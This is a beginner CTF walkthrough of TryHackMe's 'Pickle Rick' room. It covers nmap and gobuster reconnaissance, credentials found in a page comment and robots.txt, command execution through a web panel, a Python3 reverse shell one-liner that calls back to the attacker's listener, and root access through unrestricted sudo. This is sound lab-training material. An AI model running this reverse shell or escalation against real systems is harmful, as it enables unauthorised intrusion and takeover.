 # Pickle Rick
**Date:** January 20th 2022

[**Link**](https://tryhackme.com/room/picklerick) to the Pickle Rick CTF on TryHackMe.

This is rated as an easy CTF for beginners.

<br>

## Objectives

This CTF requires that you find the following:
- What is the first ingredient Rick needs?
- What is the second ingredient Rick needs?
- What is the third ingredient Rick needs?

<br>

## Nmap Scan

I start with an `nmap` scan to see which ports are open:
```
sudo nmap -sC -sV -A -oN rick.nmap 10.10.172.250
```
We only see 2 - ssh and http:
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 89:78:34:72:cf:f7:19:26:15:12:c2:4e:9e:7f:c9:d9 (RSA)
|   256 4c:25:1a:7a:25:87:a5:7e:18:12:07:21:30:03:98:ad (ECDSA)
|_  256 76:58:15:13:d9:04:f3:b2:e0:b9:41:14:e2:bd:b9:83 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

<br>

## Website

Not having much to go on at this point I start with the website:

![](images/picklerick1.png)

It seems Rick needs our help finding 3 secret ingredients or he'll be stuck as a pickle forever, and we can't have that!

Viewing the page source code shows an interesting comment:
```
<!--

    Note to self, remember username!

    Username: <REDACTED>

  -->
```
Now we have a username so that's a start. Let's check to see if there is anything else interesting on the website by running a `gobuster` scan:
```
gobuster dir -u http://10.10.172.250 -w /usr/share/wordlists/dirb/common.txt -t 50 -r -o rick.buster -x php,txt,html 2& > /dev/null
```
The scan shows a few additional things to check out:
```
/assets               (Status: 200) [Size: 2192]
/denied.php           (Status: 200) [Size: 882] 
/login.php            (Status: 200) [Size: 882] 
/portal.php           (Status: 200) [Size: 882] 
/robots.txt           (Status: 200) [Size: 17]
```
/assets does not provide anything useful that I can see, but does have some pictures if you want to check them out.

Looking at robots.txt shows only a short string of text:
```
<REDACTED>
```

The denied.php and login.php files give you a login page. After logging in you are redirected to portal.php.

![](images/picklerick2.png)

Given we have a username and a string of text from the robots.txt file let's try those as a login combo on the page.

We're in! Of the menu bar options at the top it looks like only the Commands tab is useful to us:

![](images/picklerick3.png)

Running the `ls` command displays a list of files so we are able to execute commands directly on the webserver via this interface:
```
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
```
Running `cat Sup3rS3cretPickl3Ingred.txt` displays an error saying the command is disabled so we can't display the file contents that way.

I then tried `less Sup3rS3cretPickl3Ingred.txt` as a work around which was successful and gives us the answer for the first ingredient:
```
<REDACTED>
```

`less clue.txt` shows:
```
Look around the file system for the other ingredient.
```
1 down and 2 to go!

<br>

## Getting a shell

Still on the website I check to see if python3 is available with `which python3` and it is:
```
/usr/bin/python3
```

Let's see if we can get a reverse shell here. I set up a listener on my system with `nc -nvlp 4444`:
```
nc -nvlp 4444
listening on [any] 4444 ...
```

And then find a reverse shell payload on [**revshells.com**](https://www.revshells.com/). I'm going with Python3 #1.
```
export RHOST="<YOUR IP>";export RPORT=4444;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```

After executing the command above we get a shell back on our listener!
```
connect to [<MY IP>] from (UNKNOWN) [10.10.172.250] 53856
$ whoami
whoami
www-data
$ hostname
hostname
ip-10-10-172-250
$
```

Let's stabilize the shell:
```
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@ip-10-10-172-250:/var/www/html$ export TERM=xterm
export TERM=xterm
www-data@ip-10-10-172-250:/var/www/html$ ^Z
zsh: suspended  nc -nvlp 4444
                                                                                                       
┌──(kali㉿kali)-[~/work]
└─$ stty raw -echo; fg                                                                       148 ⨯ 1 ⚙
[1]  + continued  nc -nvlp 4444

www-data@ip-10-10-172-250:/var/www/html$
```

Running an `ls` command displays the files from above and you can `cat Sup3rS3cretPickl3Ingred.txt` and `cat clue.txt` at this point if you didn't already display them on the website.

Taking a look at the /home directory shows us a directory for **rick**, and looking inside gives us the answer for the second ingredient:
```
www-data@ip-10-10-172-250:/var/www/html$ cd /home
www-data@ip-10-10-172-250:/home$ ls
rick  ubuntu
www-data@ip-10-10-172-250:/home$ cd rick
www-data@ip-10-10-172-250:/home/rick$ ls
second ingredients
www-data@ip-10-10-172-250:/home/rick$ cat "second ingredients"  
<REDACTED>
```

Now let's see about privilege escalation. Anything listed on `sudo -l`?
```
www-data@ip-10-10-172-250:/home/rick$ sudo -l
Matching Defaults entries for www-data on
    ip-10-10-172-250.eu-west-1.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on
        ip-10-10-172-250.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```

Well, that was easy! No need to run linpeas or anything when we can run all commands as root with sudo. Let's `sudo /bin/bash` to get root:
```
www-data@ip-10-10-172-250:/home/rick$ sudo /bin/bash
root@ip-10-10-172-250:/home/rick#
```

Let's take a look at the /root directory:
```
root@ip-10-10-172-250:/home/rick# cd /root
root@ip-10-10-172-250:~# ls
3rd.txt  snap
root@ip-10-10-172-250:~# cat 3rd.txt
3rd ingredients: <REDACTED>
```

And we now have all 3 ingredients allowing to get Rick out of the pickle he's in. Ok that was a terrible joke I admit.

![](images/picklerick4.png)

Many thanks to **TryHackMe** for creating and hosting this fun Rick and Morty themed CTF. I had a blast going through it.

You can visit them at: [**https://tryhackme.com**](https://tryhackme.com)
